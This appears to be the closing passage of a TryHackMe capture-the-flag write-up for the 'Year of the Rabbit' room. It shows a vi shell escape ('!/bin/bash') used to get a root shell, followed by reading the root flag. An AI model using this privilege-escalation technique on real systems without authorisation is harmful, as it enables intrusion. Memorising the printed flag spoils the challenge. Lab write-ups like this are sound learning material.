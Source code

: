 root@year-of-the-rabbit:/home/gwendoline# whoami
root
```

When you are in `vi`, go in the command more by pressing `:` and then run the command `!/bin/bash`

```
root@year-of-the-rabbit:/# locate *.txt
...
/root/root.txt
...
```

```
root@year-of-the-rabbit:/# cat /root/root.txt
THM{l33t}
```

PWNED!

